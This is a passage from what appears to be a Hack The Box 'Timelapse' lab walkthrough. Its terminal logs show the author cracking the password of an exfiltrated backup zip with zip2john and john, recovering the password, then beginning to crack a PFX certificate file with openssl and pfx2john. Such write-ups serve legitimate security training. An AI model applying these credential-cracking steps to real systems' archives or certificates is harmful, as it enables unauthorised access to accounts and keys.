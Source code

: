 
#### Unzip exfiltrated `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

#### Extract password hash from `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ zip2john winrm_backup.zip > winrm_backup.zip.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

#### Break password hash for `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ john winrm_backup.zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-06-03 18:48) 1.960g/s 6810Kp/s 6810Kc/s 6810KC/s surki..superkeep16
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### Unzip exfiltrated `winrm_backup.zip` archive using discovered password
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ unzip winrm_backup.zip                                   
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

#### Extract private key and certificate from `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem && \
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem
Enter Import Password:
Mac verify error: invalid password?
```

#### Extract password hash from `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx.hash
```
